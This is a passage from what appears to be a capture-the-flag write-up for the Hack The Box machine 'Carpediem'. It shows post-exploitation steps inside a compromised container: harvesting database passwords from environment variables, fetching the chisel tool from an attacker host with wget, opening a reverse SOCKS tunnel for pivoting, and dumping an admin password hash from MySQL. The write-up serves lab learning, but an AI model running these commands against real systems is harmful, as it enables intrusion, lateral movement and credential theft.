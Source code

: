 In `env` we find additional credentials:
```bash
www-data@3c371615b7aa:/$ ./usr/bin/env
MYSQL_PORT_33060_TCP_ADDR=172.17.0.3
MYSQL_PORT=tcp://172.17.0.3:3306
MYSQL_PORT_3306_TCP_ADDR=172.17.0.3
MYSQL_NAME=/portal/mysql
MYSQL_ENV_MYSQL_ROOT_PASSWORD=3dQXeqjMHnq4kqDv
MYSQL_PORT_3306_TCP_PORT=3306
```

Upload `chisel` to the docker and setup a tunnel so we can use proxychains and reach `172.17.0.3:3306`
Note that I wasn't able to execute the binary in `/dev/shm` and had to move to `/tmp`
```bash
## Setup chisel server locally
➜  carpediem cat /etc/proxychains4.conf
[... snip ...]
socks5	127.0.0.1 5000
➜  chisel_1.7.7 ./chisel_1.7.7_linux_amd64 server -p 4444 --reverse

## Connect with chisel client from victim
www-data@3c371615b7aa:/dev/shm$ wget http://10.10.14.10/chisel_1.7.7_linux_amd64
www-data@3c371615b7aa:/dev/shm$ chmod +x chisel_1.7.7_linux_amd64
www-data@3c371615b7aa:/tmp$ ./chisel_1.7.7_linux_amd64 client 10.10.14.10:4444 R:5000:socks

## Verify connection with nmap
➜  carpediem proxychains nmap -sT --top-port 25 --open 172.17.0.3
[... snip ...]
PORT     STATE SERVICE
3306/tcp open  mysql
```

Login to the MySQL database and try to extract valuable information:
```bash
➜  carpediem proxychains mysql -h 172.17.0.3 -D portal -u portaldb -p
Enter password: J5tnqsXpyzkK4XNt

MySQL [portal]> show tables;
+------------------+
| Tables_in_portal |
+------------------+
| bike_list        |
| brand_list       |
| categories       |
| file_list        |
| rent_list        |
| system_info      |
| users            |
+------------------+

MySQL [portal]> select * from users where username = 'admin';
+----+-----------+----------+--------+------------------------+----------+----------------------------------+---------+-----------------------------------+------------+------------+---------------------+---------------------+
| id | firstname | lastname | gender | contact                | username | password                         | address | avatar                            | last_login | login_type | date_added          | date_updated        |
+----+-----------+----------+--------+------------------------+----------+----------------------------------+---------+-----------------------------------+------------+------------+---------------------+---------------------+
|  1 | Jeremy    | Hammond  | Male   | jhammond@carpediem.htb | admin    | b723e511b084ab84b44235d82da572f3 |         | uploads/1635793020_HONDA_XADV.png | NULL       |          1 | 2021-01-20 14:02:37 | 2022-04-01 23:34:50 |
```